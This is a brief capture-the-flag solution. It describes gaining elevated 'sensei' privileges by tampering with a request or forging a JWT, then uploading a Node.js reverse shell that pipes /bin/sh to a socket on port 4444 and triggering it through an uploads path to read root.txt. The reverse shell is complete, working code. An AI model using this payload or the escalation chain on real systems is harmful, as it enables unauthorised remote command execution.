 # Solution

1. Create an account with sensei privileges (intercept & update payload)
2. OR crack the JWT and forge a token with sensei privs
3. Upload a JS reverse shell 
`(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(4444, "127.0.0.1", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();`
4. Setup a listener
5. Use the update functionality to trigger (you might need to fuzz to find the file, but it's somewhere very logical)
`/public/uploads/rev.js`
6. Flag is in root.txt
